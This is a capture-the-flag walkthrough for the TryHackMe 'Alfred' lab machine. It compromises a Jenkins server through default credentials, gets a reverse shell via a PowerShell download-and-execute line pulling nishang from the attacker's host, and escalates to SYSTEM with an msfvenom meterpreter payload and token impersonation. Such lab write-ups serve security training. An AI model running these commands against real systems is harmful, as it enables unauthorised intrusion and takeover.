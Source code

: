 # Alfred

Link: [Alfred](https://tryhackme.com/room/alfred)

## High-Level Overview

Compromise a Windows machine running a Jenkins instance that isn't secured.

## Tools Needed

* Nmap
* Shells
* Netcat
* Metasploit

## Walkthrough

Initial recon scan with `nmap`:

```bash
$ nmap -sV -PS -sC MACHINE:IP
```

We have identified the following ports open:

* 80 - http?
* 3389 - ms-wbt-server?
* 8080 - tcpwrapped

Going to the URL `http://MACHINE:IP:8080/`, seems like we find a `Jenkins` instance running.

Doing a google search for `Jenkins` default credentials, it seems like this machine uses the default admin:admin credentials.

To get initial access on the machine, we explore the functionality of `Jenkins`. We are looking for a way to get remote code execution for this machine.

Clicking on the only available project, takes us to the link `http://MACHINE:IP:8080/job/project/configure`. If we scroll until we reach the `Build` section, we can see that we can issue Windows commands in this box. This is what we were looking for.

* On the attacking machine download the reverse shell exploit script and start a http server so the vulnerable machine can download the file. In a separate terminal windows create a nc listener:

```bash
# download the Invoke-PowerShellTcp.ps1 exploit
$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
# start a http server to serve the file to the jenkins instance
$ sudo python3 -m http.server 80
# in a different terminal open a nc listener to catch the reverse shell connection
$ rlwrap nc -lvnp 1234
```

* Add the following powershell commands below to the `Build` feature:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://YOUR:VPN:IP:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress YOUR:VPN:IP -Port 1234
```

* Go back to the main page and click build now. You should get a reverse shell.

On the `nc` listenr we can `cd` into `C:\Users\bruce\Desktop` to get the first flag.

Now onto privilege escalation, we will rely on `metasploit`. First use `msfvenom` to generate a windows meterpreter reverse shell payload:

```bash
$ msfvenom \
    -p windows/meterpreter/reverse_tcp \
    -a x86 \
    --encoder x86/shikata_ga_nai \
    LHOST=YOUR:VPN:IP \
    LPORT=9002 \
    -f exe \
    -o shell.exe
```

To download the exploit on the machine, we can use the **EXISTING** reverse shell connection we got using the `Jenkins` build exploit, and inside that session run the command:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://YOUR:VPN:IP:80/shell.exe','shell.exe')"
```

* We can now set up the handler in `metasploit`:

```bash
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST YOUR:VPN:IP
> set LPORT 9002
> run
```

* Then back inside the victim machine start the process with:

```powershell
> Start-Process "shell-name.exe"
```

* Now you have a shell connected and you can get to it by typing the following into `meterpreter`:

```bash
> shell
```

* Our listener now has a shell into the vulnerable Windows machine, and we can begin doing some recon work:

```bash
# check privileges
> whoami /priv
# background shell session and open meterpreter to issue commands
CTRL+Z
# can go back to the session using `channel -i 1`
> load incognito
# get the tokens we can impersonate
> list_tokens -g
> impersonate_token "BUILTIN\Administrators"
> getuid
# find process PID of services.exe
> ps | grep services.exe
# migrate process to PID of services.exe process
> migrate ps 668
# get back to the shell session
> shell
# we should be back now as system account and we can get the root flag
> cd config
> type root.txt
```

Getting the `root.txt` flag is what we needed for the final challenge for this machine.